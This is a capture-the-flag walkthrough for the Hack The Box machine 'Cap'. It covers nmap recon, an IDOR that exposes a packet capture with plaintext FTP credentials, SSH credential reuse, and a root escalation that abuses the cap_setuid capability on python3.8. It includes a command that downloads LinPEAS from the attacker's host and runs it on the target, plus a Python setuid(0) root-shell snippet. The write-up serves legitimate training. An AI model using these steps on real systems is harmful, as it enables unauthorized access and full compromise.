







---

## Challenge Overview

Cap is an easy HTB Linux machine that chains two simple but classic vulnerabilities — an IDOR on a network capture endpoint that leaks plaintext FTP credentials, and a misconfigured Linux capability on the Python binary that hands us root. Good box for understanding how small misconfigurations compound into full compromise.

Before we start, add the machine IP to `/etc/hosts`:

```bash
echo "<ip> cap.htb" | sudo tee -a /etc/hosts
```

---

## Recon

### Nmap

```
# Nmap 7.98 scan initiated Thu Mar 19 19:33:11 2026 as: /usr/lib/nmap/nmap --privileged -A -v -O -oN cap-htb.txt cap.htb
Nmap scan report for cap.htb (10.129.11.43)
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Uptime guess: 35.544 days (since Thu Feb 12 06:30:39 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=246 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   154.03 ms 10.10.14.1
2   154.16 ms cap.htb (10.129.11.43)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 19 19:33:32 2026 -- 1 IP address (1 host up) scanned in 21.82 seconds
```

Three open ports — FTP, SSH, and a Gunicorn-hosted web app. Gunicorn is a Python WSGI server, so the web app is Python-based. Keep FTP and SSH in mind; they'll matter later.

### Web Enumeration

Visiting `http://cap.htb/` shows a security dashboard. Most sections are filler — the one that stands out is **Security Snapshot**, which lets you trigger a live network capture and download it as a `.pcap` file.




After triggering a capture, the download URL looks like:

```
http://cap.htb/data/1
```

The trailing integer is a sequential ID with no authorization check — classic [IDOR](https://hacktricks.wiki/en/pentesting-web/idor.html). Navigating to `/data/0` returns a previously stored capture belonging to another user.




### Wireshark Analysis

Opening the downloaded `0.pcap` in Wireshark and filtering for FTP traffic reveals a full authentication exchange in plaintext — username and password both visible in the clear.



---

## Shell as User

Using the credentials extracted from the capture, we log into FTP and retrieve the user flag:

```bash
ftp cap.htb
# login with recovered credentials
get user.txt
```



The same credentials work for SSH, giving us a proper interactive shell as `nathan`.

---

## Shell as Root

With a foothold as `nathan`, we move on to privilege escalation. Download and run [LinPEAS](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html) to enumerate the system:

```bash
# On attacker machine
python3 -m http.server 8080

# On target
wget http://<your-ip>:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

LinPEAS flags an interesting result under **Linux Capabilities**:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```



The `cap_setuid` capability allows a process to arbitrarily change its UID — including to 0 (root) — without needing the SUID bit or sudo. Since `python3.8` has this capability, we can abuse it directly:

```python
python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```

This drops us into a root shell.



---

**Happy h4ck1ng!!**